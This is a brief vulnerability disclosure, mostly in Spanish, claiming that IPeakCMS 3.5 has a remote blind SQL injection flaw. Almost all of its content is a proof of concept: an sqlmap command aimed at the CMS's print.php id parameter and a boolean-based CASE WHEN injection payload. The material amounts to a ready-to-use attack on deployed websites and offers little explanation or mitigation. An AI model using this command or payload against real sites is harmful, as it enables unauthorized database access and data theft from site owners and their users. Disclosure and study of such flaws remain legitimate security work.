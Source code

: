 <languages />

Introducción
------------

IPeakCMS3.5 tiene una vulnerabilidad de inyección ciega de SQL remoto.

POC
---

    Use SQLmap if you've found the valid id...
    e.g: sqlmap -u "site.com/cms/print.php?id=1" --dbs
    Payload : id=(SELECT (CASE WHEN(3104=3104) THEN 1 ELSE (SELECT 8458) END))
